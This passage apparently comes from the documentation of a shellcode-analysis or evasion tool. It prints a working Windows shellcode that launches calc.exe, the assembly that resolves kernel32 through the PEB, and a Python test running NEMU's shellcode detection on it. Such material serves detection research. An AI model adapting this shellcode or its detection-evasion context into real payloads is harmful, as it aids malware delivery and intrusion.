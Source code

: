 Consider the [following](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html) generic calc.exe popping windows shellcode:

```c
char* shellcode =
"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
"\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
"\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
"\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
"\x57\x78\x01\xc2\x8b\x7a\x20\x01"
"\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
"\x45\x81\x3e\x43\x72\x65\x61\x75"
"\xf2\x81\x7e\x08\x6f\x63\x65\x73"
"\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
"\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
"\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
"\xb1\xff\x53\xe2\xfd\x68\x63\x61"
"\x6c\x63\x89\xe2\x52\x52\x53\x53"
"\x53\x53\x53\x53\x52\x53\xff\xd7";
```

As we can see in the source this shellcode uses the PEB to resolve the kernel32.dll base address:

```asm
;================================
;Find Kernel32 Base
;================================
mov edi, [fs:ebx+0x30]
mov edi, [edi+0x0c]
mov edi, [edi+0x1c]

module_loop:
mov eax, [edi+0x08]
mov esi, [edi+0x20]
mov edi, [edi]
cmp byte [esi+12], '3'
jne module_loop
```

Which will trigger NEMU's heuristics. Given the following NEMU test on the above shellcode:

```python
from arch.core import architectures
from testing_modules.nemu_tester.nemu_tester import nemu_evasion_test

shellcode = "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"

nemu_test = nemu_evasion_test(architectures['x86'], 32)
status, starting_pos, shellcode_type, decrypted_shellcode = nemu_test.test(shellcode)

if(status):
	print "[!]Detected shellcode of type [%s] at offset [%d]" % (shellcode_type, starting_pos)
else:
	print "[+]No shellcode detected"
```

